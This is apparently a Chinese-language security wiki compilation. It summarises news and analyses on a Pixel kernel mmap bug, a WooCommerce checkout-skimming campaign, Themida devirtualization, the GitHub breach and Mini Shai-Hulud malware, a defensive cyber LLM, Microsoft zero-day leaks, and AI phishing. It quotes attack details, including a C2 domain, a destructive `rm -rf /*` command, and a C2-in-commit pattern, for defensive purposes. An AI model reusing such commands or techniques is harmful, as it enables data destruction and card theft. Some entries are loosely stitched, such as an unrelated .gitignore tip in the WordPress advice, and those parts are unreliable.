- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
## 深度分析
**mmap handler：被忽视的内核提权战场**
这个 VPU 驱动的 mmap 处理函数中的 bug 堪称"教科书级的浅层漏洞"：没有复杂的 race condition，没有混淆的内存损坏——仅仅是一个参数校验缺失。`remap_pfn_range(vm, vm->vm_start, pfn, vm->vm_end-vm->vm_start, ...)` 中，`pfn` 由设备的寄存器区域物理地址计算而来，但调用者可以通过指定大于实际寄存器区域的 VMA 大小，让 `remap_pfn_range` 将超过该区域的物理内存映射到用户空间。Project Zero 的评注一针见血：**当你能够指定映射大小时，你实际上拥有了对物理内存的任意读写能力**。
**Pixel 系列"固定内核物理地址"的长期工程权衡**
Project Zero 在 2025 年 11 月发现 Pixel 上的内核物理地址是固定的（不受 KASLR 影响）——这一设计决策从性能或功耗角度可能是合理的，但它意味着一个 mmap 漏洞可以直接绕过 KASLR 这一重要的运行时保护。攻击者不需要扫描内存来定位内核，只要知道 VPU 寄存器区域和内核镜像之间的固定偏移量，就可以直接重写任意内核函数。
**Do Not Assume Drivers Are Secure: Chips&Media 案例的深层教训**
VPU 驱动和 BigWave 驱动由同一组开发者维护，当 Project Zero 向这些开发者报告 BigWave 漏洞时，曾希望他们能主动审查其他驱动程序中是否存在类似问题。然而 5 个月后，VPU 驱动中出现了同样"浅显"的 mmap bug。这揭示了一个普遍现象：**驱动程序的安全开发缺乏系统性方法论**，通常是"发现一个漏洞，修复一个漏洞"，而非对整个代码库进行主动安全审计。硬件厂商通常将驱动开发视为硬件功能的薄封装层，而安全社区则将驱动视为攻击面——这两种视角之间的差距是 Android 生态系统中持续存在的攻击面根源。
**修复周期的进步：71 天 vs 90+ 天**
Project Zero 特别指出这是他们报告的 Android 驱动 bug 中首次在 90 天内修复，最终用时 71 天。这说明 Android VRP（漏洞奖励计划）和芯片厂商之间的协调机制正在改善。但值得注意的是，这仍然是 71 天——在 AI 辅助漏洞发现的工具越来越强大的背景下，71 天的修复窗口仍然为有动机的攻击者提供了充足的利用时间。

## 实践启示
- **驱动开发中的 mmap handler 必须严格校验 VMA 大小不超过实际硬件寄存器区域**：在调用 `remap_pfn_range` 之前，增加显式的大小比较检查，这是最简单有效的修复方式。
- **不要依赖 KASLR 作为唯一的内核保护**：如果驱动存在 mmap 漏洞，KASLR 的固定偏移设计会使内核完全暴露。纵深防御需要同时考虑：驱动代码安全 + 内核内存布局随机化 + 物理内存隔离。
- **芯片厂商需要建立系统性的驱动安全审计机制**：在发布新芯片/新驱动之前，对所有 mmap、ioctl 和用户-内核数据交换路径进行标准化安全审查，而非等待外部研究者发现。
- **终端用户的安全建议**：Pixel 10 用户应确保安装 2026 年 2 月及之后的安全更新（SPL December 2025 或更早的版本仍存在漏洞）。考虑到该漏洞的利用复杂度极低（5 行代码实现任意内核读写），不应依赖"没人会用这么高级的漏洞攻击我"的侥幸。
- **Project Zero 的负责任披露模式再次展示标杆实践**：向厂商报告漏洞、通过 90 天披露期限推动修复、公开详细技术分析以推动整个生态系统改进——这是安全研究社区和厂商之间的正向循环。

---

## Ch12.088 Funnel Builder Flaw Under Active Exploitation Enables WooCommerce Checkout Skimming

> 📊 Level ⭐⭐ | 5.2KB | `entities/funnel-builder-flaw-woocommerce-checkout-skimm.md`

## 核心要点
- Published Time: Tue, 19 May 2026 16:38:12 GMT
- 影响范围：Funnel Builder（WordPress 插件）+ 40,000+ WooCommerce 商店- 漏洞类型：未授权 JavaScript 注入 → 支付页面盗取信用卡数据
- 漏洞状态：**正在被活跃利用**（无 CVE 编号）
- 修复版本：3.15.0.3
- 攻击手法：在插件"External Scripts"设置中植入伪装成 Google Tag Manager 的恶意脚本，加载远程 skimmer，通过 WebSocket 连接 C2 服务器（wss://protect-wss[.]com/ws）获取定制化盗取代码
---

## 深度分析

### 漏洞根因：公开端点的权限缺失
漏洞的技术根因是 Funnel Builder 包含一个**公开暴露的 checkout 端点**，该端点允许传入请求选择要运行的内部方法类型，但旧版本从未验证调用者权限或限制可调用方法范围。
这意味着任何未经身份验证的请求都可以到达某个写入攻击者控制数据的内部方法，将添加的代码片段注入每个 Funnel Builder 结账页面。问题的关键不是某个具体方法有漏洞，而是**整个权限控制机制根本不存在**。

### 攻击链解构
1. **入口**：未认证 HTTP 请求到达公开的 checkout 端点
2. **方法选择**：端点允许请求者指定要调用的内部方法（无权限校验）
3. **写入攻击者控制的数据**：通过该方法将恶意 `<script>` 标签写入插件全局设置
4. **注入**：该标签自动出现在所有 Funnel Builder 结账页面
5. **伪装**：脚本伪装成 Google Tag Manager 加载器（看起来像普通分析工具）
6. **C2 通信**：脚本建立 WebSocket 连接到攻击者服务器（wss://protect-wss[.]com/ws）
7. **载荷下发**：C2 服务器动态返回针对受害者商店定制的 skimmer
8. **盗取**：在用户结账时截获信用卡号、CVV、账单地址

### 为什么没有 CVE？
值得注意的是，该漏洞**目前没有官方 CVE 标识符**。这在正在被活跃利用的漏洞中极为罕见。通常此类漏洞会被分配 CVE 并进入 NVD 数据库，供安全扫描工具自动识别。CVE 缺失可能意味着：漏洞太新（披露与利用同步），或插件厂商选择不经过标准 CVE 流程直接发布补丁。
---

## 实践启示
### 对 WordPress / WooCommerce 站主1. **立即更新 Funnel Builder 至 ≥3.15.0.3**：这是消除漏洞的根本途径
2. **手动审查 External Scripts 设置**：进入 Settings → Checkout → External Scripts，删除任何不认识的内容。即使是看起来像 GTM 或 GA 的脚本，也要核实来源
3. **将 .obsidian/ 加入 .gitignore**：如果是开发者，避免本地 Vault 被污染（针对使用本 wiki 与代码库共用的用户）
4. **检查是否已有 Indicators of Compromise**：攻击者的 C2 域为 protect-wss[.]com（WebSocket），可检查服务器日志是否有相关连接

### 对安全研究 / 防御方
1. **在 SCA 流程中加入 WordPress 插件优先级评估**：Funnel Builder 有 40,000+ 安装量，属于高价值攻击目标，应在软件成分分析中提升优先级
2. **WebSocket 流量监控**：大多数企业安全工具不检查 WebSocket 流量，这是攻击者使用 wss:// 进行 C2 通信的原因之一。建议对出站 WebSocket 连接实施白名单或告警
3. **第三方脚本的代码签名/哈希验证**：对于 External Scripts 这类允许注入第三方脚本的设置，应实施哈希校验或 SRI（Subresource Integrity），防止注入内容被篡改
4. **将无 CVE 的活跃漏洞加入威胁情报**：该漏洞无 CVE 意味着许多自动扫描工具无法识别它，需要人工补充到内部威胁情报库

### 对插件开发者
1. **永远不要假设 API 端点会被"善意使用"**：即使是不起眼的内部方法，也要验证调用者权限
2. **外部脚本设置需要增加代码审查门槛**：建议添加脚本来源域名白名单、强制 HTTPS、禁止内联脚本等策略
3. **优先通过标准 CVE 流程披露**：无 CVE 意味着整个安全社区的扫描和检测能力失效，损害的是整个生态
---
## 相关实体
- [Funnel Builder Flaw Under Active Exploitation Enables Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-under-active-exploitation-enables-woocommerce-checkout-skimm.md)
- [Funnel Builder Flaw Under Active Exploitation Enables Woocom](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-under-active-exploitation-enables-woocom.md)
- [Down Fall Of Bug Bounties](https://github.com/QianJinGuo/wiki/blob/main/entities/down-fall-of-bug-bounties.md)
- [Skill Issues Compromising Claude Code With Malicious Skills Agents](https://github.com/QianJinGuo/wiki/blob/main/entities/skill-issues-compromising-claude-code-with-malicious-skills-agents.md)
- [Claw Chain Cyera Research Unveil Four Chainable Vulnerabilities In Openclaw](https://github.com/QianJinGuo/wiki/blob/main/entities/claw-chain-cyera-research-unveil-four-chainable-vulnerabilities-in-openclaw.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/funnel-builder-flaw-woocommerce-checkout-skimm.md)

---

## Ch12.089 Forward launches Predict to verify network changes before they reach production - SiliconANGLE

> 📊 Level ⭐⭐ | 5.2KB | `entities/forward-networks-predict-network-verification.md`

## 核心要点

- Forward Networks Predict: Network Formal Verification

## 相关实体
- [Huntress Edr Itdr](https://github.com/QianJinGuo/wiki/blob/main/entities/huntress-edr-itdr.md)
- [Huntress Edr Itdr Unified Detection](https://github.com/QianJinGuo/wiki/blob/main/entities/huntress-edr-itdr-unified-detection.md)
- [From Kubernetes Dev Setup To Production What Actually Change](https://github.com/QianJinGuo/wiki/blob/main/entities/from-kubernetes-dev-setup-to-production-what-actually-change.md)
- [Habby Game Aws Devops Agent](https://github.com/QianJinGuo/wiki/blob/main/entities/habby-game-aws-devops-agent.md)
- [Aws Devops Agent Mcp Server打通混合云网络排障的最后一公里](https://github.com/QianJinGuo/wiki/blob/main/entities/aws-devops-agent-mcp-server打通混合云网络排障的最后一公里.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/forward-networks-predict-network-verification.md)

- [jane street — 形式化方法与编程的未来](https://github.com/QianJinGuo/wiki/blob/main/entities/jane-street-formal-methods-future-programming.md)

## 深度分析

**问题背景：网络变更的测试困境**

传统网络工程长期以来缺乏软件开发中的等效"预发布验证"能力。网络变更需要提前数周规划，通过方法论文档和变更咨询委员会（Change Advisory Boards）执行，但仍然经常导致生产故障——因为生产网络本身一直是唯一的真实测试环境。

**技术方案：数字孪生 + 形式化验证**

Forward Predict 构建了一个覆盖所有供应商设备和主流云平台（AWS、Azure、Google Cloud、IBM）的数字孪生体。该系统从网络层到应用层建模设备状态，识别所有可能的数据包路径和策略冲突。

当验证失败时，平台会返回具体的故障数据，使 AI 代理能够迭代直到生成完全验证的配置。这本质上是将形式化方法（Formal Methods）应用于网络基础设施配置验证，通过数学上严格的分析而非模拟来确保变更的正确性。

**商业价值：量化收益**

Forward 引用 IDC 报告称，其客户平均每年实现 1420 万美元的综合收益，涵盖效率提升和安全改进。客户包括 Goldman Sachs、PayPal、S&P Global、IBM 和 Dell Technologies 等大型企业，显示出头部金融机构对这类工具的强烈需求。

**战略意义：自主网络的基础**

Forward 将 Predict 定位为"自主网络"（Autonomous Networking）的基础设施，使 AI 代理能够在没有人工干预的情况下以机器速度进行网络变更。正如联合创始人兼首席 AI 官 Nikhil Handigol 所言："Forward Predict 通过在变更发生前验证每一个变更来改变范式，这意味着工程团队停止凭直觉操作，开始凭确定性操作"。

这种确定性的验证能力是 AI 代理实现"提出、验证、部署"全流程自动化的关键前提。Beta 客户 IG Group 的高级网络工程师 Steve Bamford 证实，他们故意 staged 了本会导致网络部分隔离的变更，而 Predict 在部署前成功捕获了这些问题。

## 实践启示

**1. 评估网络验证工具的关键标准**

- 供应商和云平台的覆盖范围：是否支持您环境中的所有关键系统？
- 验证的确定性和完整性：能否穷举所有可能的故障场景？
- 与 CI/CD 流程的集成能力：是否能无缝嵌入现有发布流程？

**2. 网络工程角色的演变**

Predict 等工具的出现意味着网络工程师需要培养新的核心竞争力：不仅要理解网络协议和配置，还要掌握自动化、脚本编写和与 AI 代理协作的技能。

**3. 自主网络的分阶段路径**

虽然完全自主的网络运营可能还需要数年时间才能实现，但企业现在可以开始准备——建立数字孪生基础、定义网络变更的标准化验证流程、培训团队掌握新工具。

**4. 风险管理与验证优先**

将网络变更验证纳入标准流程可以显著降低生产故障风险，尤其是在金融、医疗等对网络可用性要求极高的行业。

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/forward-networks-predict-network-verification.md)

---

## Ch12.090 Static Devirtualization of Themida

> 📊 Level ⭐⭐ | 5.1KB | `entities/back-engineering-static-devirtualization-themida.md`

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/back-engineering-static-devirtualization-themida.md)

## 关键要点
- Themida 是一种软件保护壳，使用虚拟化技术保护软件
- 文章提供了静态去虚拟化的技术细节
- 包含代码级别的技术分析
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/back-engineering-static-devirtualization-themida.md)

## 深度分析
Themida 的虚拟机架构与 VMProtect 的主要区别在于支持嵌套虚拟化。VM context 和虚拟栈位于 binary 自身内部，而非原生栈上。devirtualization 的核心方法是将原生指令提升为可塑的中间表示（IR），通过将控制流具体化来驱动提升过程——当优化解析出未知的分支目标时， concrete control flow 使提升能够继续进行。
关键设计决策：起始时将栈指针（RSP）保持为具体值而非符号值。这意味着加载/存储传播机制可以自动处理栈访问，栈指针算术运算也能无需特殊处理即可被常量折叠。唯一的限制是不支持动态栈分配（如 alloca），但在实际虚拟化的函数中这种情况很少见。
devirtualization 的主要工作由一组通用优化完成，VM-specific 知识只在处理控制流时才变得必要——具体来说是虚拟分支和虚拟调用。几乎所有介绍内容都适用于 VMP 和其他基于 VM 的保护器，只有 VJCC handler 是 Themida 特有的构造。
常量折叠需要运行至收敛。每次优化 pass 都为下一个 pass 提供输入：bytecode load 被提升为常量 → 解密运算被折叠 → handler 索引变为具体 → handler 表查找被解析 → 下一 handler 地址成为常量。VM 脚手架由此逐步崩溃。
死存储消除（Dead Store Elimination）在这里是安全的，因为目标是 VM-private 内存。Themida 使用自己的 section 存放 VM context、虚拟栈和相关脚手架，这些内存对原始程序不可见。一旦 lifting 到达 VMEXIT，任何仅访问 Themida section 的存储都可以被证明是死的。
Themida 的 VJCC handler 与 VMP 不同：条件先被求值并将结果写入 `branch_taken_flag`，VIP 直到 handler 末尾才推进。这意味着符号执行在 VIP 被解析之前就遇到了分支分叉，两条路径都需要被探索，每条路径的正确 VIP 需要通过条件 VPC 更新逻辑追踪，而非从单一加载中读取。

### 实践启示
1. **不要依赖模式匹配 VM handler**：任何对 VM-specific 行为的依赖都会使工具变得脆弱。小的改变（如 handler 布局、opcode 表或调度逻辑的变化）可能无声地破坏整个版本范围的工具。最小化 VM-specific 知识才是跨版本工作的关键。
2. **符号执行的引导策略**：当指令指针无法确定时，说明优化还没运行足够距离，或者分支有多个真实目标（如虚拟化 JCC）。不要急于对未知分支做决策，继续运行优化直到可以具体化。
3. **load/store 传播的配置范围策略**：指定哪些内存范围可以安全提升可以避免用户数据被意外处理。store 追踪防止从被写入的地址提升（会产生错误结果），而可配置的 range 策略可以区分 VM 脚手架和反映原始程序语义的加载。
4. **降低寄存器压力**：在 lowering 阶段，寄存器分配器溢出会导致 devirtualized 代码获得自己的栈帧，这会使栈传递的参数在被虚拟化区域内部的调用中被误读。目标是产生可执行输出，使其在任何反汇编器中都干净地加载。LLVM 在这方面有挑战性，因为让 LLVM 发出紧密的、行为良好的、可重新插入 binary 的原生代码是一个独立的项目。
5. **MBA 表达式已可被还原**：通过 MBA 表达式隐藏分支目标的技术现在可以被轻易还原（参见相关演示）。更强的技术（如 CodeDefender 的重保护层）使符号执行在通用情况下变得不可行。

## 相关实体
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-themida.md)
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-of-themida.md)

---

## Ch12.091 GitHub Breached — Employee Device Hack Led to Exfiltration

> 📊 Level ⭐⭐ | 5.1KB | `entities/thehackernews-com-github-breached-employee-device-hack-led-to-exfilt.md`

## 核心要点

- thehackernews.com 技术文章
- 来源：https://thehackernews.com/2026/05/github-investigating-teampcp-claimed.html

## 相关实体
- [Github Investigating Teampcp Claimed 17Cc77](https://github.com/QianJinGuo/wiki/blob/main/entities/github-investigating-teampcp-claimed-17cc77.md)
- [Searchengineland Com Google Adds Llms Txt Check To Chrome Lighthouse](https://github.com/QianJinGuo/wiki/blob/main/entities/searchengineland-com-google-adds-llms-txt-check-to-chrome-lighthouse.md)
- [Blog Himanshuanand Com Score By Collisions Patch By Panic](https://github.com/QianJinGuo/wiki/blob/main/entities/blog-himanshuanand-com-score-by-collisions-patch-by-panic.md)
- [Grafana Github Token Breach Led To Codebase Download And Extortion Attempt 2](https://github.com/QianJinGuo/wiki/blob/main/entities/grafana-github-token-breach-led-to-codebase-download-and-extortion-attempt-2.md)
- [Www Networkworld Com Versa Takes Aim At Fragmented Enterprise Security](https://github.com/QianJinGuo/wiki/blob/main/entities/www-networkworld-com-versa-takes-aim-at-fragmented-enterprise-security.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/thehackernews-com-github-breached-employee-device-hack-led-to-exfilt.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-landscape.md)
## 深度分析

GitHub 事件的核心攻击向量再次指向了开发工具生态系统的信任边界问题。攻击者通过一款被污染的 Microsoft Visual Studio Code 扩展入侵了员工设备，进而获取了 GitHub 内部仓库的访问权限，最终导致 3,800 多个内部仓库数据外泄。这一路径的精妙之处在于：VS Code 扩展拥有广泛的用户信任基础和极高的权限范围，同时 IDE 环境的持久性和对网络请求的天然允许使其成为理想的攻击驻留点。

TeamPCP 采用了「不勒索，只出售」的独特商业模式，明确表示「这不是赎金，1 个买家我们就销毁数据」，这揭示了软件供应链攻击的经济模型正在演进。与传统勒索软件不同，代码仓库外泄的受害组织面临着声誉和法律双重风险——GitHub 无法通过支付赎金来「治愈」已经扩散的代码，且微软作为母公司面临的监管压力远大于普通受害者。

与 GitHub 事件并行的是 TeamPCP 仍在活跃的 Mini Shai-Hulud 恶意软件活动，其通过 PyPI 上的 durabletask 包（微软官方 Python 客户端）传播。该恶意软件展示了多维度的横向移动能力：在 AWS 环境中利用 SSM SendCommand 传播到其他 EC2 实例，在 Kubernetes 环境中通过 kubectl exec 扩散，并针对 HashiCorp Vault、1Password、Bitwarden 等密码管理工具以及 SSH 密钥、Docker 凭证和 VPN 配置进行凭证窃取。

恶意软件的条件触发逻辑揭示了明确的地缘政治意图：检测到以色列或伊朗系统设置时，有 1/6 概率执行 `rm -rf /*`。这种设计表明供应链攻击工具已不仅是经济动机驱动，部分攻击者正在将国家级网络战能力嵌入开源软件生态的日常更新流程中。

FIRESCALE C2 备份机制的发现尤其值得安全团队关注：攻击者将命令与控制地址编码在 GitHub 公开 commit 消息中，通过特定模式（`FIRESCALE <base64_url>.<base64_signature>`）提取备用 C2 信息。这种将攻击基础设施隐藏在合法平台的做法，使得传统的恶意域名拦截机制完全失效。

## 实践启示

- **对所有 IDE 扩展实施强制最小权限原则**。企业应禁止开发人员安装未经安全团队审批的 VS Code 扩展，推荐使用经过验证的扩展白名单机制。同时，IDE 扩展的更新机制应被视为高风险入口点，类似于浏览器插件的安全模型。 

- **立即轮换所有在 CI/CD 管道和 GitHub Actions 中使用的敏感凭证**。GitHub 事件表明内部仓库的泄露可能包含用于发布工件的 PyPI token、NPM token 等。建议对过去 90 天内有发布权限的所有 token 执行滚动更换，并启用细粒度的 token 过期策略。 

- **对 PyPI 和 npm 等包管理器的依赖引入建立多阶段审查**。durabletask 事件中恶意包在被引入后能自动执行（通过 `import` 语句触发），建议使用锁文件（lockfile）固定依赖版本，并在 CI/CD 管道中加入包完整性校验（如 hash 对比、SHA 验证）。 

- **在云环境中实施 Workload Identity Federation 以消除长期凭证**。恶意软件利用 AWS SSM 传播的能力表明，基于永久凭证的 IAM 访问是横向移动的主要跳板。迁移到基于 OIDC 的临时凭证可显著缩小攻击面。 

- **监控 GitHub 公开 commit 中的异常模式**。鉴于 FIRESCALE 等技术利用公开 commit 消息隐藏 C2 信息，建议安全团队将 commit 历史审计纳入威胁狩猎流程，对包含非编码语言关键词（如「FIRESCALE」）的 commit 消息进行专项告警。

---

## Ch12.092 CyberSecQwen-4B

> 📊 Level ⭐⭐ | 5.0KB | `entities/cybersecqwen-4b.md`

## Key Capabilities
- **CWE Classification**: Maps vulnerability descriptions (CVEs, advisories) to MITRE CWE categories
- **CTI Q&A**: Structured question answering about cybersecurity concepts, attacks, controls
- **Defensive triage assistance**: Supports human analysts triaging CVEs, prioritizing patches

## Performance
On CTI-Bench (2,500 CTI-MCQ items + 1,000 CVE→CWE items):
| Model | Parameters | CTI-MCQ | CTI-RCM |
| --- | --- | --- | --- |
| **CyberSecQwen-4B** | 4B | **0.5868** | 0.6664 |
| Foundation-Sec-Instruct-8B | 8B | 0.4996 | 0.6850 |
| Qwen3-4B-Instruct (base) | 4B | 0.473 | 0.519 |
Outperforms the 8B Cisco baseline on CTI-MCQ by +8.7 pp while being half the size.

## Technical Details
- **Base model**: Qwen3-4B-Instruct-2507 (Apache 2.0)
- **Training**: Single AMD MI300X 192GB, ROCm 7, bf16, FlashAttention-2
- **LoRA config**: r=64, alpha=64, dropout=0.05, LR 5e-5 cosine, 10 epochs
- **License**: Apache 2.0

## 深度分析
### 小专项 vs 大通用：参数效率的核心逻辑
CyberSecQwen-4B 的实验结果揭示了一个重要规律：在垂直领域，**专精比庞大更有价值**。4B 参数的专项微调版本在 CTI-MCQ 上超越 8B 通用基线 8.7 pp，同时在 CTI-RCM 上保留了 97.3% 的准确率。这说明对于 CVE→CWE 映射这类结构化任务，关键在于领域数据的覆盖度和微调策略，而非原始模型大小。

### AMD ROCm 生态的实战验证
整个训练流程（训练→适配器合并→评估）全程运行在单块 AMD Instinct MI300X 192 GB 上，验证了 ROCm 7 + FlashAttention-2 在生产级任务中的可用性。遇到的四个工程挑战（FA2 在 Gemma-4 上的 head_dim 不兼容、AITER 内核冲突、bitsandbytes 不支持 ROCm、vLLM ROCm + chat template 兼容性）都有明确解决方案，表明 AMD 算力在 LLM 微调场景已具备可操作性。

### 微调配方的高度可迁移性
Gemma4Defense-2B 采用完全相同的训练语料和超参数，仅更换基模型（Qwen3-4B → Gemma-4-E2B-it），两项指标差距在 0.9 pp 以内。这条证据至关重要：LoRA r=64, alpha=64, dropout=0.05, LR 5e-5 cosine 的配方本身具有跨架构复现性，基模型切换不要求重新调试训练流程。

### 安全边界的清醒定位
项目明确列出"不适合生成漏洞利用代码、自动执行安全决策或通用聊天"，这是一个值得肯定的自我约束。在 defensive AI 领域，模型的用途边界和技术能力边界同样重要——4B 参数规模本身也在某种程度上限制了恶意使用的上限。

## 实践启示
1. **选择专项微调而非持续预训练**：当领域任务明确（如 CWE 分类）且有高质量标注数据时，LoRA 微调比继续预训练更高效。CyberSecQwen-4B 从 Qwen3-4B-Instruct-2507（已 instruction-tuned）起步，避免了从零训练的高成本。
2. **参数减半、性能提升的配方可参考**：r=64, alpha=64, dropout=0.05, cosine LR warmup ratio 0.03, bf16 + FlashAttention-2 这套组合在两个不同基模型上均告有效，具备跨家族复现的参考价值。
3. **AMD MI300X 是可行的替代选择**：对于需要大显存（192 GB）且关注多 GPU 成本优化的团队，ROCm 7 生态已基本成熟，vLLM、transformers、peft、trl 均可对接。
4. **本地部署是 defensive 网络安全的硬需求**：API 成本、数据泄露风险和 air-gapped 环境三重约束下，12 GB 消费级显卡可运行的 4B 模型是当前最具可操作性的落地方案。
5. **后续演进关注量化版本**：项目计划发布 Q4_K_M 和 Q5_K_M 的 GGUF 格式，这将显著扩展其在边缘设备和笔记本电脑上的适用场景。

## 相关实体
> [主题导航](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cybersecqwen-4b.md)

## 相关实体
>

- [CyberSecQwen-4B: Why Defensive Cyber Needs Small, Specialized, Locally-Runnable Models](https://github.com/QianJinGuo/wiki/blob/main/entities/cybersecqwen-4b-why-defensive-cyber-needs-small-specialized-locally-runnable-mod.md)
- [Fake OpenAI Privacy Filter Repo Hits #1 on Hugging Face, Draws 244K Downloads](https://github.com/QianJinGuo/wiki/blob/main/entities/thehackernews-fake-openai-privacy-filter.md)
- [Adversaries Leverage AI for Vulnerability Exploitation, Augmented Operations, and Initial Access](https://github.com/QianJinGuo/wiki/blob/main/entities/google-ai-vulnerability-exploitation-threat-intel.md)

---

## Ch12.093 Mystery Microsoft bug leaker keeps the zero-days coming

> 📊 Level ⭐⭐ | 5.0KB | `entities/microsoft-zero-days-researcher-disgruntled.md`

# Mystery Microsoft bug leaker keeps the zero-days coming
Security pros warn YellowKey claim could make stolen laptops a much bigger problem
](https:&#x2F;&#x2F;www.theregister.com&#x2F;author&#x2F;connor-jones)
Cybersecurity reporter

## 相关实体
- [Microsoft Zero Days Researcher Disgruntled Theregister](https://github.com/QianJinGuo/wiki/blob/main/entities/microsoft-zero-days-researcher-disgruntled-theregister.md)
- [Disgruntled Researcher Microsoft Zero Days](https://github.com/QianJinGuo/wiki/blob/main/entities/disgruntled-researcher-microsoft-zero-days.md)
- [13 Disgruntled Researcher Releases Two More Microsoft Zero Days 5239758](https://github.com/QianJinGuo/wiki/blob/main/entities/13-disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md)
- [Down Fall Of Bug Bounties](https://github.com/QianJinGuo/wiki/blob/main/entities/down-fall-of-bug-bounties.md)
- [How Harnesses And Post Training Close The Open Weight Bug Finding Gap 20260606](https://github.com/QianJinGuo/wiki/blob/main/entities/how-harnesses-and-post-training-close-the-open-weight-bug-finding-gap-20260606.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/microsoft-zero-days-researcher-disgruntled.md)

## 深度分析

**Nightmare-Eclipse 的持续曝光策略**——该研究员采用了一种高度系统化的漏洞披露节奏：选在微软每月 Patch Tuesday 之后发布新 zero-day，使微软安全团队无法在常规补丁周期内响应，被迫进入应急模式。这不是冲动型泄密，而是精心设计的施压行为。原文存档显示，研究员已在 2026 年陆续披露 BlueHammer（CVE-2026-32201）、RedSun、UnDefend 和本次的 YellowKey、GreenPlasma，共五个 zero-day，形成持续性威慑 。

**YellowKey 的实质性威胁边界**——尽管需要物理访问的限制常被用来降低风险评级，但安全专家 Rik Ferguson 的判断揭示了真实隐患：BitLocker 是被盗设备的最后防线，一旦被绕过，"丢失的笔记本电脑不再只是硬件问题，而是数据泄露通知触发点"。这意味着企业资产管理策略需要重新评估——设备失窃的处置流程将涉及监管合规而非单纯硬件更换 。

**GreenPlasma 与真实攻击链的衔接**——GreenPlasma 提供了 SYSTEM 权限提升，Nightmare-Eclipse 虽只发布部分 PoC 代码而非完整利用程序，但 Knapp 指出这类权限提升漏洞的实际价值在于攻击后利用阶段：攻击者获得初始立足点后，用此类漏洞获取高权限、横向移动、窃取凭据，最终达成数据外泄或勒索软件部署目标。Huntress 观测到 RedSun 和 UnDefend 的 PoC 在发布后迅速被实际攻击采纳，说明即便是不完整的利用代码也具备实战价值 。

**"前员工"动机的可信度与泄密边界**——Chaotic Eclipse 在博客中声称"有人违反了协议使我无家可归"，暗示与微软存在雇佣或 NDA 纠纷。若属实，这揭示了大厂安全研究员与雇主之间关于漏洞归属权的法律灰色地带——内部发现的漏洞究竟是公司资产还是个人研究成果？此类争议在安全社区并不罕见，但将其转化为公开 zero-day 披露则跨越了法律和道德边界 。

**防御方的现实困境**——YellowKey 目前无已知补丁，GreenPlasma 也无官方缓解措施，只能依赖 BitLocker PIN + BIOS 密码锁降低风险。这意味着企业需要在"强加密防护"与"可用性"之间做出取舍，而这种取舍在面对有组织的报复性披露时显得尤为脆弱。安全体系不能假设漏洞永不流出，需要在纵深防御层面提前规划 zero-day 应急响应流程 。

## 实践启示

- **重新定义设备失窃响应**：YellowKey 将"丢失笔记本电脑"从硬件问题升级为数据泄露事件，企业安全策略必须随之调整——所有 BitLocker 设备失窃均应触发数据泄露评估和监管通报流程 。

- **建立 zero-day 应急储备**：鉴于 arrive-Eclipse 暗示持有"dead man's switch"且过往威胁均已兑现，组织应提前准备应急响应手册，包括备用加密方案、特权访问监控和设备远程擦除能力 。

- **物理安全与数字安全的交集治理**：BitLocker 绕过攻击重新将"设备物理访问"纳入攻击向量，安全团队应将对高敏感设备的物理访问管控纳入整体风险评估，而非简单依赖加密作为最后防线 。

- **PoC 代码快速武器化的监控机制**：Huntress 已观测到 RedSun 在野利用，组织应部署漏洞利用检测签名和异常进程行为监控，即便 PoC 不完整也可能在短期内被改造使用 。

- **内部漏洞协议明确化**：若组织有安全研究员团队，应明确书面规定内部发现漏洞的披露流程、归属权划分和激励机制，避免将争议泄漏转化为外部 zero-day 披露的法律和声誉风险 。

---

## Ch12.094 AI phishing attacks are on the rise — Are you prepared? | Bitwarden

> 📊 Level ⭐⭐ | 5.0KB | `entities/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md`

## 核心要点
- 2024 年 FBI 数据：钓鱼诈骗为 top cybercrime，且随 AI 上升趋势加剧
- 60% 的安全漏洞源于人为错误（Verizon）
- 每次钓鱼攻击平均损失 $488 万（2024 Data Breach Report）
- 自 ChatGPT 2022 年发布，钓鱼攻击增长 4151%（SlashNext）
- AI 钓鱼比传统钓鱼有效性高 24%（Hoxhunt）
- LLM 可将钓鱼成本降低 95% 以上，同时保持同等成功率（Harvard Business Review）
## 相关实体
- [Ai Phishing Attacks Are On The Rise Are You Prepared Bitward](https://github.com/QianJinGuo/wiki/blob/main/entities/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md)
- [Ai Agents Inside Perimeter Hackernews](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-agents-inside-perimeter-hackernews.md)
- [Llm Raiders Private Ai Server](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-private-ai-server.md)
- [Bluekit](https://github.com/QianJinGuo/wiki/blob/main/entities/bluekit.md)
- [Schmoozing Is Dead Agents Are Hitting 120 Of Humans And Growth Is The Only Thing](https://github.com/QianJinGuo/wiki/blob/main/entities/schmoozing-is-dead-agents-are-hitting-120-of-humans-and-growth-is-the-only-thing.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/AI-phishing-attacks-are-on-the-rise-Are-you-prepared-Bitward.md)

- [Interpol Operation Ramz Mena Cybercrime](https://github.com/QianJinGuo/wiki/blob/main/entities/interpol-operation-ramz-mena-cybercrime.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
## 深度分析
### 攻击规模的几何级增长
